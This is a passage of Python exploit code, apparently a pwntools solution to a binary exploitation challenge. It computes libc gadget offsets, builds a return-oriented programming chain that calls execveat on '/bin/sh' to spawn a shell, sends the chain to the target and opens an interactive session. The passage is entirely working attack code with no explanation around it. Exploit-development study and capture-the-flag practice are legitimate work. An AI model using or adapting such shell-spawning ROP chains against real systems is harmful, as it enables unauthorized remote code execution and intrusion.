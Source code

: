 ```python
    rdx = libc_base + 0xb5db0 # xor edx, edx; mov eax, edx; ret
    r8  = libc_base + 0x9874e # pop r8; mov qword ptr fs:[0x300], rdi; ret
    exec_rop = flat(gadgets.rdi.address, (1 << 64) - 100, # AT_FDCWD
                    gadgets.rsi.address, next(libc.search(b'/bin/sh')),
                    rdx, gadgets.rcx.address, 0, r8, 0,
                    libc.symbols['execveat'])
    t.send(exec_rop)

    t.clean()
    t.interactive()
    t.close()
    return 1
```
